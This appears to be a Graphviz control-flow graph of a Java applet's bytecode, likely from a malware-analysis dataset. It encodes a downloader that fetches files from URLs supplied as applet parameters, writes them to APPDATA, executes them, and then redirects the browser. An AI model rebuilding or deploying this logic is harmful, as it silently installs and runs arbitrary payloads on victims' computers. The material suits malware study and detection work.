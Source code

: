 digraph "" {
    "r0 := @this: Java"
    "push \"java.runtime.version\""
    "r0 := @this: Java"->"push \"java.runtime.version\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.runtime.version\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "pop"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"pop";
    "staticinvoke <java.util.Locale: java.util.Locale getDefault()>"
    "pop"->"staticinvoke <java.util.Locale: java.util.Locale getDefault()>";
    "virtualinvoke <java.util.Locale: java.lang.String getCountry()>"
    "staticinvoke <java.util.Locale: java.util.Locale getDefault()>"->"virtualinvoke <java.util.Locale: java.lang.String getCountry()>";
    "virtualinvoke <java.util.Locale: java.lang.String getCountry()>"->"pop";
    "push \"os.name\""
    "pop"->"push \"os.name\"";
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"pop";
    "push \"APPDATA\""
    "pop"->"push \"APPDATA\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "store.r r5"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"store.r r5";
    "store.r r5"->"push \"APPDATA\"";
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "store.r r6"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"store.r r6";
    "load.r r0"
    "store.r r6"->"load.r r0";
    "push \"YourFile\""
    "load.r r0"->"push \"YourFile\"";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"
    "push \"YourFile\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r7"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r7";
    "store.r r7"->"load.r r0";
    "push \"GoTo\""
    "load.r r0"->"push \"GoTo\"";
    "push \"GoTo\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r53"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r53";
    "store.r r53"->"load.r r0";
    "push \"YourFile2\""
    "load.r r0"->"push \"YourFile2\"";
    "push \"YourFile2\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r8"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r8";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "store.r r8"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "store.r r54"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r54";
    "new java.io.FileOutputStream"
    "store.r r54"->"new java.io.FileOutputStream";
    "store.r $r24"
    "new java.io.FileOutputStream"->"store.r $r24";
    "load.r $r24"
    "store.r $r24"->"load.r $r24";
    "new java.lang.StringBuilder"
    "load.r $r24"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r5"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r5";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r5"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r7"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r7";
    "load.r r7"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "new java.net.URL"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"YourDirectLink\""
    "load.r r0"->"push \"YourDirectLink\"";
    "push \"YourDirectLink\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r13"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r13";
    "push 1024"
    "store.r r13"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r14"
    "newarray"->"store.r r14";
    "load.r r13"
    "store.r r14"->"load.r r13";
    "load.r r14"
    "load.r r13"->"load.r r14";
    "push 0"
    "load.r r14"->"push 0";
    "push 0"->"load.r r14";
    "arraylength"
    "load.r r14"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i3"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i3";
    "load.i $i3"
    "store.i $i3"->"load.i $i3";
    "push -1"
    "load.i $i3"->"push -1";
    "ifcmpeq.i load.r r13"
    "push -1"->"ifcmpeq.i load.r r13";
    "ifcmpeq.i load.r r13"->"load.r $r24";
    "load.r $r24"->"load.r r14";
    "load.r r14"->"push 0";
    "push 0"->"load.i $i3";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i3"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r13"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r13";
    "store.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpeq.i load.r r13"->"load.r r13";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r13"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r24";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r24"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "load.r r54"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r54";
    "load.r r54"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r7";
    "load.r r7"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r5";
    "store.r r5"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"store.r r14";
    "store.r r14"->"load.r r14";
    "load.r r14"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r6"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r8"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"YourDirectLink2\""
    "load.r r0"->"push \"YourDirectLink2\"";
    "push \"YourDirectLink2\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r7";
    "store.r r7"->"push 1024";
    "push 1024"->"newarray";
    "newarray"->"store.r r13";
    "store.r r13"->"load.r r7";
    "load.r r7"->"load.r r13";
    "load.r r13"->"push 0";
    "push 0"->"load.r r13";
    "load.r r13"->"arraylength";
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $r24"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $r24";
    "load.i $r24"
    "store.i $r24"->"load.i $r24";
    "load.i $r24"->"push -1";
    "ifcmpeq.i load.r r7"
    "push -1"->"ifcmpeq.i load.r r7";
    "ifcmpeq.i load.r r7"->"load.r r14";
    "load.r r14"->"load.r r13";
    "load.r r13"->"push 0";
    "push 0"->"load.i $r24";
    "load.i $r24"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r7"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r7";
    "ifcmpeq.i load.r r7"->"load.r r7";
    "load.r r7"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r r14";
    "load.r r14"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r5";
    "load.r r5"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "load.r r53"
    "dup1.r"->"load.r r53";
    "checkcast"
    "load.r r53"->"checkcast";
    "checkcast"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"checkcast";
    "checkcast"->"store.r r6";
    "store.r r6"->"load.r r0";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <Java: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"->"load.r r6";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r r6"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "goto return"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"goto return";
    "goto return"->"return";
}
